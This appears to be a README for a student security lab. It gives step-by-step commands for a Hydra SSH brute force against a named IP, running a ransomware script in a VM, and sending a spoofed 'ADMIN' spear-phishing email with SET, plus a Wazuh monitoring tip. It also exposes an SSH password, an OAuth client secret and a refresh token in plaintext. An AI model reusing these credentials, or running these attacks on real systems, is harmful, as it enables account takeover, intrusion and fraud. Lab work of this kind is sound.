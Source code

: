 # Email phishing
To execute email phishing workflow follow the instruction bellow :
1- Lunch the server
2- POST request to url_server/email/imap, to request emails from gmail account. After the request the data will be stored in Redis database with
    "username":"your email",
    "password":"your password",
    "imap_server":"imap.gmail.com",
    "foldername":"inbox", where the emails are stored
    "amount":1, amount of emails you want to read
    "unread":"true", read only unread emails
    "fields":"",
    "include_raw_body":true,
    "include_attachment_data":true,
    "upload_email":true,
    "upload_attachments":true,
    "ssl_verify":true,
    "mark_as_read":false

3- 


## ssh login credentiels : usr:massihadjloum pwd:zino

# SSH brute force
1- In Google cloud lunch kali-linux virtual machine
2- Switch to root user "sudo su -"
3- Command to start attack "hydra -L users.txt -P john.txt [adresse IP] ssh"
3- Command to start attack "hydra -l massihadjloum -P john.txt 34.122.219.253 ssh"

# RansomWare attack

1- On Ubunut VM, check the content of "ls /home/ransomware/test/", if it's not empty, lunch "sudo rm -r /home/ransomware/test/*"
2- to prepare the attack lunch the script "sudo python3 /home/ransomware/ransomware_attaque.py prepare"
2- now, we start ransomware attack by lunching "sudo python3 /home/ransomware/ransomware_attaque.py attack"

# tips

1- go to the machine where wazuh agent is installed
2- to add directory which wazuh agent can monitor,  "sudo nano /var/ossec/etc/ossec.conf"
3- go to "syscheck and add "<directories check_all="yes" whodata="yes">path of directory you want to monitor</directories>""

# Steps to generate acces token

1- execute "py oauth2.py --generate_oauth2_token --client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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"
2- get code and enter it in the cmd, and you will get access token

3- get access_token using refresh_token "py oauth2.py --refresh_token=1//03nTOlF4aA-MaCgYIARAAGAMSNwF-L9IrUywc39EOSbXD1cEEj2FTnXgegz2G8_jjoihZoqaer4ELSIGB2sqrdai_4ABGZACCGrM --client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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"

4- after you get access_token put it in email_app/email_connection/ self.access_token varibale

refresh token:1//03nTOlF4aA-MaCgYIARAAGAMSNwF-L9IrUywc39EOSbXD1cEEj2FTnXgegz2G8_jjoihZoqaer4ELSIGB2sqrdai_4ABGZACCGrM


--client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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



# Phishing email attack
https://app.sendinblue.com/marketing-campaign/list

SMTP serveur : smtp-relay.sendinblue.com 
Port : 587
Identifier : youremail@gmail.com
password : Login to https://app.sendinblue.com/marketing-campaign/list using youremail@gmail.com 
and check link https://account.sendinblue.com/advanced/api to get password

1 - Lunch kali-linux VM and switch to root mode : "sudo su -"
2 - setoolkit
3 - choose social engineering attack : choose "1"
4 - Spear-Phishing Attack Vectors : choose 1
5 - E-Mail Attack Single Email Address
6 - send email to :youremail-attack@esi.dz
7 - Use your own server or open relay
8 - put the email you want : for example admin@org.com
9 - Choose the name that will apear to victim : ADMIN
10 - usernma of open-relay : youremail@gmail.com
11- password Login to https://app.sendinblue.com/marketing-campaign/list using youremail@gmail.com 
and check link https://account.sendinblue.com/advanced/api to get password
12 - smtp-relay.sendinblue.com 
13 - 587
14 -  Flag this message/s as high priority? [yes|no]:yes
